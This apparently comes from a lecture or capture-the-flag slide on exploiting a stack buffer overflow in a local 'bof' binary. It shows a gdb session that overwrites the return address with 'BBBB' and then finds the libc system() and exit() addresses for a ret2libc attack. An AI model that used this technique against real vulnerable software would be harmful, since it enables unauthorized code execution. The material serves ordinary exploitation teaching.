

# Find addresses for system() & exit()
$ gdb -q --args ./bof $(python -c 'print "A" * 140 + "BBBB"')
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) p system
No symbol table is loaded.  Use the "file" command.
(gdb) r
Starting program: /home/user/Challenges/bof/bof AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
argv[1]:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e3fd80 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e339b0 <exit>
(gdb)